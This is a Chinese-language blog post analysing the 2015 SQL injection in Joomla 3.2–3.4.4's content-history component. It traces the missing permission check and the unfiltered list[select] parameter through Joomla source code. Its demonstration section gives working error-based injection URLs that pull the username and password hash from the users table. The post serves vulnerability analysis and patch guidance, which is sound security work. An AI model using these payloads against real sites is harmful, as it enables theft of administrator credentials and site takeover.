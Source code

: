 ```yaml
---
layout: post
title: "Joomla CMS 3.2-3.4.4 SQL注入 漏洞分析"
tags: [web, security]
---
```


昨日(2015-10-22)，Joomla CMS发布新版本3.4.5，该版本修复了一个高危的SQL注入漏洞，3.2至3.4.4版本都受到影响。攻击者通过该漏洞可以直接获取获取数据库中敏感信息，甚至可以获取已登陆的管理员会话直接进入网站后台。

### 一、原理分析

在 Joomla CMS 中有一个查看历史编辑版本的组件(com_contenthistory)，该功能本应只有管理员才能访问，但是由于开发人员的疏忽，导致该功能的访问并不需要相应的权限。通过访问 `/index.php?option=com_contenthistory` 可以使得服务端加载历史版本处理组件。程序流程会转到 `/components/com_contenthistory/contenthistory.php` 文件中：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$lang = JFactory::getLanguage();
$lang->load('com_contenthistory', JPATH_ADMINISTRATOR, null, false, true)
||    $lang->load('com_contenthistory', JPATH_SITE, null, false, true);

require_once JPATH_COMPONENT_ADMINISTRATOR . '/contenthistory.php';
{% endhighlight %}

可以看到该组件加载时并没有进行相关权限的监测，而 Joomla 中，一般的后台调用组件 (`/administrator/components/`下的组件) 都会进行组件对应的权限检查，例如后台中的 `com_contact` 组件

{% highlight php %}
if (!JFactory::getUser()->authorise('core.manage', 'com_contact'))
{
    return JError::raiseWarning(404, JText::_('JERROR_ALERTNOAUTHOR'));
}
{% endhighlight %}

但是，程序在处理 `contenthistory` 组建时，并没有进行一个权限检查，程序初始化并设置好组件相关配置后，包含文件 `/administrator/components/com_contenthistory/contenthistory.php`，其内容如下：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$controller = JControllerLegacy::getInstance('Contenthistory', array('base_path' => JPATH_COMPONENT_ADMINISTRATOR));
$controller->execute(JFactory::getApplication()->input->get('task'));
$controller->redirect();
{% endhighlight %}

程序初始化基于 `contenthistory` 组件的控制类 `JControllerLegacy`，然后直接调用控制类的 `execute()` 方法，在 `execute()` 方法中，会调用其控制类中的 `display()`，代码位于 `/libraries/legacy/controller/legacy.php`：

{% highlight php %}
public function display($cachable = false, $urlparams = array())
{
    $document = JFactory::getDocument();
    $viewType = $document->getType();
    $viewName = $this->input->get('view', $this->default_view);
    $viewLayout = $this->input->get('layout', 'default', 'string');

    $view = $this->getView($viewName, $viewType, '', array('base_path' => $this->basePath, 'layout' => $viewLayout));

    // Get/Create the model
    if ($model = $this->getModel($viewName))
    {
        // Push the model into the view (as default)
        $view->setModel($model, true);
    }
    (...省略...)
    if ($cachable && $viewType != 'feed' && $conf->get('caching') >= 1)
    { (...省略...) }
    else
    {
        $view->display();
    }

    return $this;
}
{% endhighlight %}

处理程序从传递的参数中获取 `view` 和 `layout` 的参数值进行初始化视图，并且调用 `$model = $this->getModel($viewName)` 加载对应数据模型，最终会调用 `$view->display()` 函数进行视图处理。

Joomla 新版本 3.4.5 中修复的SQL注入漏洞涉及的是历史查看操作，也就是 `view=history` 时的程序处理会导致注入。在程序进行数据提取时，会进入 `/administrator/components/com_contenthistory/models/history.php` 文件中的 `getListQuery()` 函数：

{% highlight php %}
protected function getListQuery()
{
	// Create a new query object.
	$db = $this->getDbo();
	$query = $db->getQuery(true);

	// Select the required fields from the table.
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))

	// Join over the users for the editor
	->select('uc.name AS editor')
	->join('LEFT', '#__users AS uc ON uc.id = h.editor_user_id');

	// Add the list ordering clause.
	$orderCol = $this->state->get('list.ordering');
	$orderDirn = $this->state->get('list.direction');
	$query->order($db->quoteName($orderCol) . $orderDirn);

	return $query;
}
{% endhighlight %}

注意下面这段SQL语句构造部分：

{% highlight php %}
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))
{% endhighlight %}

其中 `getState()` 函数用于获取模型的属性和其对应的值，其函数定义位于 `/ibraries/legacy/model/legacy.php`：

{% highlight php %}
public function getState($property = null, $default = null)
{
	if (!$this->__state_set)
	{
		// Protected method to auto-populate the model state.
		$this->populateState();

		// Set the model state set flag to true.
		$this->__state_set = true;
	}

	return $property === null ? $this->state : $this->state->get($property, $default);
}
{% endhighlight %}

然后会调用 `populateState()` 函数来初始化参数值和提取并过滤某些参数，在 `contenthistory` 组建中定义有自己的 `populateState()` 函数：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
	// List state information.
	parent::populateState('h.save_date', 'DESC');
}
{% endhighlight %}

函数最后，会调用父类的 `populateState()` 函数，因为该数据模型继承于 JModelList，所以父类相关代码位于 `/libraries/legacy/model/list.php` 中，而在父类该函数的处理中会解析请求中传递的 `list[]` 参数，解析并过滤预设键的值，但是却忽略了 `list[select]`：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
		// Receive & set list options
		if ($list = $app->getUserStateFromRequest($this->context . '.list', 'list', array(), 'array'))
		{
			foreach ($list as $name => $value)
			{
				// Extra validations
				switch ($name)
				{
					case 'fullordering':
						(...省略...)
					case 'ordering':
						(...省略...)
					case 'direction':
						(...省略...)
					case 'limit':
						(...省略...)
					default:
						$value = $value;
						break;
				}

				$this->setState('list.' . $name, $value);
			}
		}
	(...省略...)
{% endhighlight %}

而传递 `list[select]` 参数值最终会被解析到上述组件视图进行处理时 SQL 语句构建中的 `list.select` 里，从而导致了注入。

### 二、漏洞演示

通过上面简单的分析，已经知道了受影响的 Joomla 版本中，`contenthistory` 组件访问不受权限的控制，并且当进行 `view=history` 请求时会解析请求参数中 `list[select]` 的值拼接到 SQL 语句中。下面是该漏洞的简单验证和利用方法。

*1.漏洞验证*

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&list[select]=1

因为在进行 SQL 语句拼接的时候，获取了 `list.ordering` 进行数据查询中的 `order` 操作，若不提供默认会将其设置为数据进行处理，相关处理位于 `/libraries/joomla/database/driver.php` 的 quoteName() 函数中。

因此，访问上述构造的URL，服务器会报错：

![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/1.png)

*2.漏洞利用*

因为在 SQL 语句拼接时，程序框架针对每个 `from` 或者 `where` 操作进行了换行处理，所以这里并不能使用 `#`、`--` 等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的 `item_id` 和 `type_id` 参数值必须于数据库中有效，同时传递 `list[ordering]` 参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用 `item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中 `#_` 最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select username from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/2.png)

    http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select password from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/3.png)

### 三、修复方案

1. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 获取最新版本进行重新安装；
2. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 下载相应版本的补丁程序进行升级；

### 四、总结

就 Joomla CMS 的用户量来看，目前还有大量的站点的数据正受到该漏洞的威胁。该漏洞的产生本质上是由于访问控制的缺失和过滤不严格造成。访问控制的缺失导致本应只有管理员才能进行访问和加载的 `contenthistory` 组件能够被任意用户访问和加载，而参数的过滤不严格，导致攻击者能够构造出恶意的参数到执行流中产生注入。

### 参考

* [http://www.sebug.net/vuldb/ssvid-89680](http://www.sebug.net/vuldb/ssvid-89680)
* [https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html](https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html)
* [https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/)
